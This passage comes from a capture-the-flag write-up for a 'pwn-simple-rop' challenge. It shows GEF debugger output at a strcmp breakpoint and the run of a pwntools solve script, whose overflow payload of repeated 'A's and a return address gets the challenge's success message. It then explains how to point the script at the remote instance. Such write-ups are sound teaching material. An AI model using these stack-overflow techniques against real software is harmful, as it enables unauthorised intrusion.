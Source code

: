 Running it, we can see that GEF says all of our values are loaded at the strcmp breakpoint!

```
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
0x4010a0 (
   $rdi = 0x000000000047a008 → "sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_i[...]",
   $rsi = 0x000000000047a008 → "sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_i[...]",
   $rdx = 0x000000000047a008 → "sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_i[...]"
)
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x40171b in ?? (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40171b → call 0x4010a0
[#1] 0x7ffd9147e300 → add BYTE PTR [rax], al
[#2] 0x7ffd9147e3d8 → jle 0x7ffd9147e3c9
```

And we get our output:

```
$ python solve.py
[+] Starting local process '/usr/bin/gdbserver': pid 850069
[*] running in new terminal: ['/usr/bin/gdb', '-q', './chall', '-x', '/tmp/pwn15zls2jp.gdb']
[*] '/pwn-simple-rop/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Receiving all data: Done (361B)
[*] Process '/usr/bin/gdbserver' stopped with exit code 0 (pid 850072)

nice to meet ya AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x16@!
let's test your binary exploitation skills. only the best hackers can join our team...
i am not impressed. this meeting is over.
wowza you're a pro!! submit this solution to our server for the real reward
```

Just like the last one, replace the `gdb.debug()`/`process()` call with `remote()` to connect to the challenge instance and get the real flag.
